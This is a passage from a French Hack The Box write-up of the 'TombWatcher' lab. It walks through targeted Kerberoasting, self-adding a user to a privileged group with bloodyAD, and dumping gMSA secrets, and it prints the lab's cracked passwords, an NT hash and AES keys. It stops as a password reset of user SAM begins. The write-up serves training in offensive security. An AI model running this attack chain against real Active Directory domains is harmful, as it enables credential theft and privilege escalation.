 ```bash
python3 targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```

![[Pasted image 20250610040240.png]]
le mot de passe de l’utilisateur Alfred est récupéré
**Alfred:basketball**

> **Note :** 
>L'utilisateur ALFRED@TOMBWATCHER.HTB peut s'ajouter au groupe INFRASTRUCTURE@TOMBWATCHER.HTB. Grâce à la délégation de groupe de sécurité, les membres d'un groupe de sécurité disposent des mêmes privilèges que ce groupe.
>En s'ajoutant au groupe, ALFRED@TOMBWATCHER.HTB obtiendra les mêmes privilèges que INFRASTRUCTURE@TOMBWATCHER.HTB.

Alfred peut s’ajouter lui-même au groupe **INFRASTRUCTURE**, ce qui est un vecteur d’escalade via délégation de groupe.

```bash
bloodyAD -d tombwatcher.htb -u alfred -p basketball --host 10.10.11.72 add groupMember 'CN=Infrastructure,CN=Users,DC=tombwatcher,DC=htb' 'CN=Alfred,CN=Users,DC=tombwatcher,DC=htb'
```

Cette action donne à Alfred les mêmes privilèges que le groupe INFRASTRUCTURE.

![[Pasted image 20250612095145.png]]


>**Note**: 
ANSIBLE_DEV$@TOMBWATCHER.HTB est un compte de service géré de groupe. Le groupe INFRASTRUCTURE@TOMBWATCHER.HTB peut récupérer le mot de passe du GMSA ANSIBLE_DEV$@TOMBWATCHER.HTB.
Les comptes de service gérés de groupe sont un type particulier d'objet Active Directory, où le mot de passe est géré et modifié automatiquement par les contrôleurs de domaine à intervalles réguliers (vérifiez l'attribut MSDS-ManagedPasswordInterval).
L'objectif d'un GMSA est de permettre à certains comptes d'ordinateur de récupérer le mot de passe du GMSA, puis d'exécuter des services locaux en tant que GMSA. Un attaquant disposant du contrôle d'un principal autorisé peut abuser de ce privilège pour se faire passer pour le GMSA.

Extraction des secrets du gMSA :

```bash
python3 gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
```

![[Pasted image 20250610043513.png]]

**ansible_dev$:Infrastructure**
**ansible_dev$:::1c37d00093dc2a5f25176bf2d474afdc**
**ansible_dev$:aes256-cts-hmac-sha1-96:526688ad2b7ead7566b70184c518ef665cc4c0215a1d634ef5f5bcda6543b5b3**
**ansible_dev$:aes128-cts-hmac-sha1-96:91366223f82cd8d39b0e767f0061fd9a**

>**Note :**
>L'utilisateur ANSIBLE_DEV$@TOMBWATCHER.HTB a la capacité de modifier le mot de passe de l'utilisateur SAM@TOMBWATCHER.HTB sans connaître le mot de passe actuel de cet utilisateur.

Avec le hash récupéré, modification du mot de passe de l’utilisateur SAM (compte sensible) :
